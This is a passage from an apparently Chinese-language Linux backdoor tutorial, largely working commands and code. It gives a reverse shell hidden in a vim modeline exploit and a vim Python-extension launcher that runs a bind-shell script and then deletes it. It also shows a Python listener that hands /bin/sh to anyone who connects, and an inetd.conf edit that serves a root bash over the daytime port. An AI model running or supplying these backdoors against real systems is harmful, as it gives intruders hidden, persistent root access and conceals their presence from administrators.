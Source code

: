 反弹shell：

```
Copy`:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="` 
```

#### vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。

```
Copy`cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py` 
```

恶意脚本 dir.py 的内容可以是任何功能的后门，比如监听本地的11端口：

```
Copy`#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
       server=socket(AF_INET,SOCK_STREAM)
       server.bind(('0.0.0.0',11))
       server.listen(5)
       print 'waiting for connect'
       talk, addr = server.accept()
       print 'connect from',addr
       proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
               stdout=talk, stderr=talk, shell=True)` 
```

攻击机nc连接过去就可以了:

```
Copy`nohup vim -E -c "pyfile dir.py"
nc 127.0.0.1 11` 
```

### 0x08 inetd服务后门

inetd是一个监听外部网络请求(就是一个socket)的系统守护进程，默认情况下为13端口。当inetd接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个socket交给那个程序去处理。所以，如果我们已经在目标系统的inetd配置文件中配置好，那么来自外部的某个socket是要执行一个可交互的shell，就获取了一个后门。

```
Copy`#修改/etc/inetd.conf
$vim /etc/inetd.conf

#discard stream tcp nowait root internal 
#discard dgram udp wait root internal 
daytime stream tcp nowait root /bin/bash bash -i

#开启inetd
$inetd

#nc连接
nc -vv 192.168.2.11 13` 
```
